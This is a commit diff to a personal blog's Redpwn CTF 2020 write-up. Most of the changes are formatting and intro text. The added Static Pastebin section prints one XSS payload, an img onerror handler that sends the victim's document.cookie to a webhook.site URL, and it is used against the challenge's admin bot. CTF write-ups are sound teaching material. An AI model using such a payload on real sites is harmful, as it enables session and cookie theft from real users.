

Before and after one commit to Isopach/isopach.github.io, a Jekyll site: the page built from _posts/2020-06-26-Redpwn-CTF-2020.md, in a window 1280 px wide and 1400 px high, scrolled down 1618 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Add Static Pastebin

```diff
--- a/_posts/2020-06-26-Redpwn-CTF-2020.md
+++ b/_posts/2020-06-26-Redpwn-CTF-2020.md
@@ -5,7 +5,7 @@ published: true
 categories: [web, misc]
 ---
 
-I enjoyed this CTF overall and there were many well-made challenges!
+I enjoyed this CTF overall and there were many well-made challenges! I played with CTF.SG again, and although we barely solved a single RE, it was lots of fun in the other categories.
 
 ---
 
@@ -46,7 +46,7 @@ Go to `view-source:https://redpwn.net/` and you will see the flag on `line 7`.
   <summary>Challenge Description</summary>
 
   I made a cool login page. I bet you can't get in!
-
+<br />
   Site: login.2020.redpwnc.tf
 </details>
 
@@ -71,16 +71,21 @@ It looked like a simple SQLi, so I tried `admin';` and `admin'; -- `, but no luc
   <summary>Challenge Description></summary>
 
  I wanted to make a website to store bits of text, but I don't have any experience with web development. However, I realized that I don't need any! If you experience any issues, make a paste and send it here
-
+<br />
   Site: static-pastebin.2020.redpwnc.tf
-
+<br />
   Note: The site is entirely static. Dirbuster will not be useful in solving it.
 </details>
 
 
-This was also pretty easy!
+This was also pretty easy! Reading `/paste/script.js`, we can see that it is just simple XSS.
 
-![Static Pastebin Flag](../assets/redpwn-ctf-2020/Static-Pastebin-flag.png)
+
+`"><img src=x onerror="javascript:document.location='https://webhook.site/016547ba-79c7-4a80-b9d4-5e4f21e63513?c='+document.cookie"></img>`
+
+By sending this paste to the admin, we can get the flag!
+
+![Static Pastebin](../assets/redpwn-ctf-2020/Static-Pastebin-Flag.png)
 
 <details>
   <summary>FLAG</summary>
@@ -99,9 +104,9 @@ This was also pretty easy!
   <summary>Challenge Description</summary>
 
   Seeing that my last website was a success, I made a version where instead of storing text, you can make your own custom websites! If you make something cool, send it to me here
-
+<br />
 Site: static-static-hosting.2020.redpwnc.tf
-
+<br />
 Note: The site is entirely static. Dirbuster will not be useful in solving it.
 
 </details>
@@ -156,7 +161,7 @@ flag{wh0_n33d5_d0mpur1fy}
   <summary>Challenge Description</summary>
 
   My friend made a fanpage for Tux; can you steal the source code for me?
-
+<br />
 Site: tux-fanpage.2020.redpwnc.tf
 </details>
 
@@ -247,7 +252,7 @@ Send this and we'll get the source where the flag is not `[REDACTED]` instead. O
   <summary>Challenge Description</summary>
 
   It's important for public keys to be transparent.
-
+<br />
 Hint: certificate-transparency.org
 </details>
 
@@ -365,9 +370,9 @@ And go to `/purchases` to view it!
   <summary>Challenge Description</summary>
 
   This bash script evaluates to echo dont just run it, dummy # flag{...} where the flag is in the comments.
-
+<br />
 The comment won't be visible if you just execute the script. How can you mess with bash to get the value right before it executes?
-
+<br />
 Enjoy the intro misc chal.
 </details>
 
```
Also changed, not shown: assets/redpwn-ctf-2020/Static-Pastebin-Flag.png (added).
